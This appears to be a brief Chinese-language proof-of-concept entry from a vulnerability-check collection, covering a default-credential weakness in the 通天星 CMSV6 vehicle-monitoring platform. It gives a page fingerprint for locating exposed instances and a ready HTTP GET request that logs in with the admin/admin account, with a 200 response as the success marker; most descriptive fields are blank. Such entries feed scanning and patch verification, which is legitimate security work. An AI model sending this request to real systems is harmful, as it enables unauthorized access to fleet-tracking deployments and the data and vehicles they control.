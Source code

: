 ﻿# 通天星CMSV6弱口令漏洞

> 更新时间：2024-04-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：body="/808gps/"

> 验证脚本：HTTP

```
GET /StandardApiAction_login.action?account=admin&password=admin HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：通天星CMSV6弱口令漏洞.poc

